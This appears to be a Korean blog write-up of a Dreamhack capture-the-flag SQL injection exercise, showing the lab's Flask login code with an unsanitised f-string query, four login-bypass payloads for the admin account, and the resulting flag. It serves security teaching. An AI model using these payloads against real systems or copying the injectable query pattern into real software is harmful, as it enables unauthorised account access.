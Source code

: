 ```yaml
---
title: Dreamhack Exercise SQL Injection
date: 2022-02-21 15:03:51
tags: Dreamhack
categories: Dreamhack
---
```


## 문제 목표 및 기능 요약
Simple - SQLi 문제의 목표는 관리자 계정으로 로그인하면 출력되는 flag 를 획득하는 것 입니다
사이트에 접속해보면 간단히 로그인 기능만을 제공하고 있음을 확인할 수 있습니다

- /login : 입력받은 ID / PW 를 데이터베이스에서 조회하고 이에 해당하는 데이터가 있는 경우 로그인을 수행합니다

## 웹 서비스 분석

### 데이터 베이스 구조
구성된 데이터베이스는 Figure1 을 통해 database.db 파일로 관리하고 있습니다

Figure1 데이터베이스 구성 코드

```SQL
DATABASE = "database.db" # 데이터베이스 파일명을 database.db로 설정
if os.path.exists(DATABASE) == False: # 데이터베이스 파일이 존재하지 않는 경우,
    db = sqlite3.connect(DATABASE) # 데이터베이스 파일 생성 및 연결
    db.execute('create table users(userid char(100), userpassword char(100));') # users 테이블 생성
    # users 테이블에 관리자와 guest 계정 생성
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # DB 연결 종료
```

### 데이터베이스 구조
위의 코드로 생성된 데이터 베이스 구조는 아래와 같습니다

userid 와 userpassword 컬럼은 각각 이용자의 ID 와 PW 를 저장합니다
Figure1 을 살펴보면 guest 계정은 이용자가 알 수 있지만 admin 계정은 랜덤하게 생성된 16 바이트의 문자열이기 때문에 비밀번호를 예상할 수 없습니다

- userid : guest admin
- userpassword : guest 랜덤 16 바이트 문자열을 Hex 형태로 표현 ( 32 바이트 )

### 엔드 포인트 : /login
Figure2 는 로그인 페이지를 구성하는 코드입니다
코드를 살펴보면 메소드에 따른 요청마다 다른 기능을 수행하는 것을 알 수 있습니다

Figure2 login 페이지 코드

```python
@app.route('/login', methods=['GET', 'POST']) # Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
def login(): # login 함수 선언
    if request.method == 'GET': # 이용자가 GET 메소드의 요청을 전달한 경우,
        return render_template('login.html') # 이용자에게 ID/PW를 요청받는 화면을 출력
    else: # POST 요청을 전달한 경우
        userid = request.form.get('userid') # 이용자의 입력값인 userid를 받은 뒤,
        userpassword = request.form.get('userpassword') # 이용자의 입력값인 userpassword를 받고
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

### GET
![SQL](https://kr.object.ncloudstorage.com/dreamhack-content/page/b9a557263288b06270edbdcc09b97e5512024f104ac7b23b8b82b8c393d13c67.png)

userid 와 userpassword 를 입력할 수 있는 로그인 페이지를 제공합니다
userid 와 password 입력창에 guest 를 입력하면 로그인을 수행할 수 있습니다

### POST
이용자가 입력한 계정 정보가 데이터베이스에 존재하는지 확인합니다
이때 로그인 계정이 admin 일 경우 FLAG 를 출력합니다

## 취약점 분석
Simple - SQLi 문제를 풀이하는 접근 방법은 다양합니다
관리자 계정의 비밀번호를 모른채로 로그인을 우회하여 풀이하는 방법과 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인 하는 방법으로 크게 두 가지로 나눌 수 있습니다

이번 코스에서는 로그인을 우회하여 풀이하는 방법으로 문제 풀이를 진행하며 다음 코스에서는 관리자 계정의 비밀번호를 알아내는 풀이에 대해서 배워보도록 하겠습니다

Figure3 을 살펴보면 userid 와 userpassword 를 이용자에게 입력받고 동적으로 쿼리문을 생성한 뒤 query_db 함수에서 SQLite 에 질의합니다

이렇게 동적으로 생성한 쿼리를 RawQuery 라고 합니다
RawQuery 를 생성할 때 이용자의 입력값이 쿼리문에 포함되면 SQL Injection 취약점에 노출될 수 있습니다

이용자의 입력값을 검사하는 과정이 없기 때문에 임의의 쿼리문을 userid 또는 userpassword 에 삽입해 SQL Injection 공격을 수행할 수 있습니다

Figure3 login 과 query_db 함수

```python
def login(): # login 함수 선언
    ...
    userid = request.form.get('userid') # 이용자의 입력값인 userid를 받은 뒤,
    userpassword = request.form.get('userpassword') # 이용자의 입력값인 userpassword를 받고
    # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
    res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
    ...
    
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    return (rv[0] if rv else None) if one else rv # 쿼리문 질의 내용에 대한 결과를 반환
```

## 익스플로잇
본 문제를 해결하기 위해서는 userid 가 admin 인 계정으로 로그인해야 합니다
Figure4 는 로그인을 위해 실행하는 쿼리문으로 이를 참고해 admin 이라는 결과가 반환되도록 쿼리문을 조작해야 합니다

Figure5 는 admin 계정으로 로그인할 수 있는 SQL Injection 공격 코드입니다
SQL 은 수많은 조건절을 제공하기 때문에 이를 통해 다양한 방법으로 공격을 시도할 수 있습니다

Figure4 로그인 쿼리

```SQL
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```

Figure5 SQL Injection 공격 쿼리문 작성

```SQL
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"
/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"
/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"
/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

## 관리자 계정 로그인
앞서 작성한 공격 쿼리문을 userid 와 userpassword 입력창에 입력하면 admin 계정으로 로그인 되는 것을 확인할 수 있으며 FLAG 를 획득할 수 있습니다

Figure5 공격 쿼리문을 입력해 관리자 계정으로 로그인 한 모습

![SQL](https://kr.object.ncloudstorage.com/dreamhack-content/page/684d7e43118f3195d2831073b5b4b99d5e0e7e5f815ca2e8835b8c0b346d8c5a.png)

Figure6 플래그 획득

![SQL](https://kr.object.ncloudstorage.com/dreamhack-content/page/16975b51fa0c2aa29520ab09601e53f05e4853e9fac81d76839c42a5e8ae9ea1.png)

> Flag : DH{1f136225e316add7bff3349ab1dd5400}

* * * 

## Reference
Reference : https://dreamhack.io